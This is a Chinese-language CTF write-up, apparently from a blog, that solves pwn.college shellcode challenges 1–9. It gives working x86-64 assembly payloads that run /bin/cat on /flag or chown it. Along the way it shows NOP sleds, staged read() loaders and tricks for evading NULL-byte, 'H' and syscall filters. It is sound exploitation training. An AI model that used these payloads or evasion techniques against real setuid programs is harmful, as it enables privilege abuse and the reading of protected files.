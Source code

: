 ```yaml
---
title: Pwn College Shell Code
---
```


## 准备工作

首先，我不希望使用类似于 `pwntool` 这类完整的 CTF 框架，这会让我们失去对细节的理解。因此，我们将使用最基础的 `as` 作为我们的汇编器。
并且利用 `objcopy` 等来生成原生的 shellcode 进行注入。

### 编译脚本

```bash
#!/bin/bash
as --64 -o shell shell.s                        # 指示汇编器生成 64 位的代码。
objcopy -O binary -j .text shell shell.bin      # 汇编器生成的文件会包含不必要的元信息，我们使用 objcopy 将 .text 段提取出来。
objdump  -b binary shell.bin -m i386:x86-64 -D  # 输出我们的 shellcode 便于调试。
```

## Challenge 1 Plain Shellcode

这个挑战是最基础的 shellcode，程序直接执行我们注入的 shellcode。由于使用了 ASLR 保护，栈地址是完全随机的，所以我们需要确保我们的 shellcode 是位置无关的。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	leaq cmd(%rip), %rdi
	movq %rdi, argv1(%rip)
	leaq arg2(%rip), %rsi
	movq %rsi, argv2(%rip)
	leaq argv1(%rip), %rsi
	movq $0x3b, %rax
	movq $0x0, %rdx
	syscall

cmd: .string "/bin/cat"
argv1:  .long 0
	    .long 0
argv2:  .long 0
	    .long 0
	    .long 0
	    .long 0
arg2: .string "/flag"
```

</details>

接下来我们介绍几个重点部分。

### `lea` 指令
`lea` 全称为 Load Effective Address，其作用是将一个地址加载到一个寄存器中，不过不需要纠结，只要记住它的格式。与 `mov` 指令不同，`lea` 指令不会将地址中的内容加载到寄存器中，而是将地址本身加载到寄存器中。不过不需要纠结这些，只需要记住 `lea` 指令所代表的算术运算即可。

```assembly
lea o(r1,r2,m), rd
```

最后 `rd = o + r1 + r2 * m`，不管这些值代表什么，也不管最后的结果是否是一个合法的地址，`lea` 指令都会将这个结果加载到 `rd` 中。其中，`m` 代表单位位移量，只能取 1, 2, 4, 8 这几个值，分别代表 1, 2, 4, 8 字节的大小。`r1` 代表基址寄存器，`r2` 代表索引寄存器，`o` 代表偏移量。

而 `mov o(r1,r2,m), rd` 则是将 `o + r1 + r2 * m` 这个地址中的内容加载到 `rd` 中，也就是 `rd = *(o + r1 + r2 * m)`，如果最终结果不是一个合法地址，则会段错误。

### 位置无关代码
一般而言，位置无关代码是通过 pc 相对寻址实现的，也就是说我们的代码不依赖于绝对地址，而是通过目标地址与 pc 之间的偏移量来计算目标地址。而汇编器一般具有对于这类
指令的语法糖。例如 `leaq cmd(%rip), %rdi` 所代表的并不是将 `$cmd + %rip` 这个地址赋值给 `%rdi`，而是将 `$cmd` 这个地址以 pc 相对寻址的方式赋值给 `%rdi`。

### SetUID
这部分详见 [Linux 中各种各样的 UID](../uid)。

### `argv`
`argv` 是一个指向字符串指针的指针，我们需要将其设置为一个指向字符串指针的数组。在这里，我们将 `argv` 设置为一个指向字符串指针的数组，其中第一个指针指向 `cmd`，第二个指针指向 `arg2="/flag"`，第三个指针指向 `NULL` 代表终止符。

## Challenge 2 Shellcode with NOP Sled

这次程序会将 shellcode 的前 800 个字节删除，我们只需要在 shellcode 前面加上一些 NOP 指令即可。

```assembly
.fill 800, 1, 0x90
```

`.fill` 是一条伪指令，用于填充数据，其格式为 `.fill n, size, value`，表示填充 `n` 个 `size` 大小的 `value`。

## Challenge 3 Shellcode with NULL-byte Filter

这一次我们将不能使用 NULL 字节，因为程序会将 shellcode 中的 NULL 字节删除。我们将使用一个有意思的技巧，即在 shellcode 中再发起一个系统调用，这样我们可以通过这个系统调用来继续读取新的 shellcode。也就是我们将执行一个 `read(stdin, %rip, 0x1ff)` 的系统调用，这样我们就可以继续读取新的 shellcode。

获取 `%rip` 的值在没有 NULL 字节的情况下是非常困难的，幸运的是，这一次 Victim 程序会将我们的 shellcode 加载到一个固定的地址，我们可以直接在 shellcode 中硬编码常量。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	xor %rax, %rax
	xor %rdi, %rdi
	xor %rsi, %rsi
	xor %rdx, %rdx
	mov $0x15e0, %si
        shl $4, %rsi	
	add $0xd, %rsi
	shl $12, %rsi
	mov $0x1ff, %dx
	syscall
	.fill 0x1000,1,0x90

	leaq cmd(%rip), %rdi
	movq %rdi, argv1(%rip)
	leaq arg2(%rip), %rsi
	movq %rsi, argv2(%rip)
	leaq argv1(%rip), %rsi
	movq $0x3b, %rax
	movq $0x0, %rdx
	syscall

cmd: .string "/bin/cat"
argv1:  .long 0
	        .long 0
argv2:  .long 0
	        .long 0
	        .long 0
	        .long 0
arg2: .string "/flag"
```
</details>

同时通过一系列技巧来避免我们的 shellcode 中出现 NULL 字节。

- 使用 `xor` 指令来清空寄存器。
- 使用 `shl` 和 `add` 指令组合计算。
- 使用 16 位与 32 位指令而不是 64 位指令来避免 NULL 字节。 

## Challenge 4 Shellcode w.o 'H'
这个题目会提前过滤所有的 `H` 字符，也就是 `0x48`。下面是关键点。

- 使用 `push %reg` `pop %reg` 来设置寄存器。
- 使用 `read(stdin, %rip, length)` 来覆盖原有的 shellcode。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	push $0	
	pop %rax
	push $0	
	pop %rdi
	push $0	
	pop %rsi
	push $0	
	pop %rdx
	push $0x2520a000
	pop %rsi
	mov $0x1ff, %dx
	syscall
	.fill 0x1000,1,0x90

	leaq cmd(%rip), %rdi
	movq %rdi, argv1(%rip)
	leaq arg2(%rip), %rsi
	movq %rsi, argv2(%rip)
	leaq argv1(%rip), %rsi
	movq $0x3b, %rax
	movq $0x0, %rdx
	syscall

cmd: .string "/bin/cat"
argv1:  .long 0
	        .long 0
argv2:  .long 0
	        .long 0
	        .long 0
	        .long 0
arg2: .string "/flag"
```
</details>

## Challenge 5 & 6 Shellcode w.o `syscall`

这个题目会过滤 `syscall (0x0f 0x05)` 指令，直接在内存上现场构造即可。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	.fill 0x1000, 1, 0x90
	movb $0xf, target(%rip)
	movb $0x5, target+1(%rip)
	leaq cmd(%rip), %rdi
	movq %rdi, argv1(%rip)
	leaq arg2(%rip), %rsi
	movq %rsi, argv2(%rip)
	leaq argv1(%rip), %rsi
	movq $0x3b, %rax
	movq $0x0, %rdx
target: .long 0
	
	

cmd: .string "/bin/cat"
argv1:  .long 0
	        .long 0
argv2:  .long 0
	        .long 0
	        .long 0
	        .long 0
arg2: .string "/flag"
```

</details>


## Challenge 7 Shellcode with closed file descriptor

这个题目将所有的文件描述符都关闭了，因此不能通过 `cat` 之类的进行读取 flag。
我使用了 `chown` 直接改变 `/flag` 的权限。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	movb $0xf, target(%rip)
	movb $0x5, target+1(%rip)
	leaq cmd(%rip), %rdi
	movq %rdi, argv1(%rip)

	leaq arg2(%rip), %rsi
	movq %rsi, argv2(%rip)

	leaq arg3(%rip), %rsi
	movq %rsi, argv3(%rip)

	leaq argv1(%rip), %rsi
	movq $0x3b, %rax
	movq $0x0, %rdx
target: .long 0
	
	

cmd: .string "/bin/chown"
argv1:  .long 0
	.long 0
argv2:  .long 0
	.long 0
argv3:  .long 0
	.long 0
	        .long 0
	        .long 0
arg2: .string "hacker"
arg3: .string "/flag"

```
</details>

## Challenge 8 18 Byte Shellcode

这个是一个很有趣的题目，只允许 18 byte，我并没有分析在调用点进入时，有哪些寄存器不需要设置（可以复用）。
而是继续坚持使用 `execve("/bin/cat", NULL, NULL)`，但很显然 `/bin/cat` 会导致我的 Shellcode 超过上限。

因此，我用 C 语言编写了一个程序，命名为 `f` 放在当前的工作目录下，然后再利用 `execve` 调用该文件 `f` 来读取 flag。


<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	xor %esi, %esi
	xor %edx, %edx
	lea flag(%rip), %rdi
	push $0x3B
	pop %rax
	syscall
flag: .string "f"
```
</details>

## Challenge 9 Modified Shellcode

每隔 10 个 Byte，Shellcode 就会被改写，处理方式非常简单，用 `jmp` 把被改写部分跳过。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	leaq cmd(%rip), %rdi
        jmp 0f
        .fill 11, 1, 0x90
0:      leaq arg2(%rip), %r10
        jmp 1f
        .fill 11, 1, 0x90
1:      movq %r10, (%rsp)
        jmp 2f
        .fill 14, 1, 0x90
2:      movq %r10, -8(%rsp)
        jmp 3f
        .fill 13, 1, 0x90
3:      movq $0x0, %rdx
        jmp 4f
        .fill 11, 1, 0x90
4:      leaq -8(%rsp), %rsi
        jmp 5f
        .fill 13, 1, 0x90
5:      movq $0x3b, %rax
        jmp 6f
        .fill 11, 1, 0x90
6:      movq %rdx, 8(%rsp)
        syscall
.fill 13, 1, 0x90
cmd: .string "/bin/cat"
.fill 11, 1, 0x90
arg2: .string "/flag"
```
</details>
